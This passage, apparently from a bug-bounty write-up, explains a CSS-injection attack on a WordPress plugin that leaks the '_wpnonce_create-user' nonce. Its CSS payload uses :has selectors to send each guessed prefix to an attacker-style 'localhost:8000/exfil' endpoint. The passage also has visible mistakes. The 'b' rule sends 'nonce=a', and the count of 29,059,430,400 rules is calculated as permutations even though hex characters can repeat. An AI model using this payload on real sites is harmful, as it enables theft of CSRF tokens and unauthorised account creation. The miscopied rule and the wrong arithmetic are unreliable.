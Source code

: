 Finally, go to the "Add New User" page and hard refresh to clear the cache:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250109141235.png)

Nice! We can overwrite CSS file and perform CSS injection!

Now, the question is: "How can we exfiltrate the nonce using CSS styles?"

There are lots of great resources that teach CSS injection. I'd recommend you to read this series written by [Huli](https://blog.huli.tw/en/about/): [Chapter 3 - Beyond XSS: Explore the Web Front-end Security Universe](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/).

In our case, we could use the following CSS injection payload to exfiltrate nonce `_wpnonce_create-user`:

```css
form:has(input[name="_wpnonce_create-user"][value^="a"]) {
  background: url("http://localhost:8000/exfil?nonce=a");
}

form:has(input[name="_wpnonce_create-user"][value^="b"]) {
  background: url("http://localhost:8000/exfil?nonce=a");
}
[...]
form:has(input[name="_wpnonce_create-user"][value^="aa"]) {
  background: url("http://localhost:8000/exfil?nonce=aa");
}

form:has(input[name="_wpnonce_create-user"][value^="ab"]) {
  background: url("http://localhost:8000/exfil?nonce=ab");
}
[...]
```

In here, since CSS doesn't allow us to directly select hidden element, we need to use CSS selector **[`:has`](https://developer.mozilla.org/en-US/docs/Web/CSS/:has)** to select elements below that meet specific conditions. In our case, the `:has` selector is to select the `<form>` element that has `<input>` element where property `name` is `_wpnonce_create-user` and with value starting with `a`, `b`, `aa`, and so on. If the conditions are met, it'll send a GET request to our attacker website, effectively exfiltrating the nonce.

By default, WordPress nonces' length are 10, and the character set is lowercase hexadecimal. In the above approach, if we try to exfiltrate the nonce, we need to have **29,059,430,400 permutations** of CSS rules:

```math
\begin{aligned}
P(n,r) & = \frac{n!}{(n - r)!} \\
& = \frac{16!}{(16 - 10)!} \\
& = 29059430400
\end{aligned}
```
